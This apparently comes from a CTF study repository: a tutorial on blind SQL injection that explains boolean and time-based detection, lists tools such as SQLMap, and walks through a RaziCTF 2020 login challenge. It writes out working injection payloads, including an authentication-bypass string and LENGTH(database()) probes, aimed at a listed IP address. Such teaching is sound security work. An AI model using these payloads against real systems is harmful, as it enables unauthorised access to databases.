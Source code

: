 # SQL Injection: Blind SQL Injection

## Introduction

Blind SQL Injection is a type of SQL injection attack where the attacker cannot see the result of the query directly. Instead, they infer information from the application's behavior, such as differences in response times or error messages. This method is useful when error messages are not displayed, but the application still processes the injected SQL commands. Sadly blind injection challenges are generally harder than normal SQLi question, but that doesn't mean you can't solve it :)

## Table of Contents

- [SQL Injection: Blind SQL Injection](#sql-injection-blind-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Blind SQL Injection vulnerabilities, pay attention to subtle differences in application responses. Indicators include:

1. **Behavior Testing:** Entering SQL syntax that does not produce visible errors but causes changes in application behavior, such as differences in response times or content.
2. **Boolean-based Testing:** Using boolean conditions (true/false) to determine the existence of a vulnerability.
3. **Time-based Testing:** Using time delays (e.g., `SLEEP` function) to measure response times and infer database information. (More on this in [here](./time_based_blind_injections.md))

Example:
```plaintext
http://example.com/item.php?id=1 AND 1=1 -- (Normal response)
http://example.com/item.php?id=1 AND 1=2 -- (Different response)
```
 or maybe a form
 ```
 Product ID: A97HY  (Normal response)
 Product ID: true --  (Different response)
 ```

## Code/tools/websites

### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites

> https://ctflearn.com/challenge/430 [Quite hard]
> 
Hint: First use auth by-pass then start applying blind SQL.
## Sample problem

### Problem Statement
This is based on a real CTF question, from the RaziCTF 2020.
In this question you are given a login page and a `/login` endpoint we can post credentials to. When trying to log in it just says `You are not allowed to login` which seems quite odd. 
```
http://130.185.122.155:8080/login 
```
Identify if the application is vulnerable to Blind SQL Injection.
After this you need to login and get the length of the database.

### Solution
1. Test for SQL injection vulnerability using boolean-based testing:
   ```sql
   http://130.185.122.155:8080/login AND 1=1 -- (Normal response)
   http://130.185.122.155:8080/login AND 1=2 -- (Different response)
   ```


2. Use what we learnt in authentication by-pass to login.
   ```SQL
   http://130.185.122.155:8080/login " ' or 1--"
   ```

3. Use boolean-based payload to determine the length of the database name (`bruteforce using a script`):
   ```SQL
   http://130.185.122.155:8080/login AND LENGTH(database())=1 -- (False)
   http://130.185.122.155:8080/login AND LENGTH(database())=2 -- (False)
   .
   .
   .
   http://130.185.122.155:8080/login AND LENGTH(database())=23 -- (True)
   ```
The last part (3) is out of scope for the current topic but is added here becuase many times you need a combination of techniques to solve a question.
## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/blind)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Blind SQL Injection exploits differences in application behavior to infer database information without directly viewing the results. Identifying and exploiting these vulnerabilities requires careful observation and systematic testing.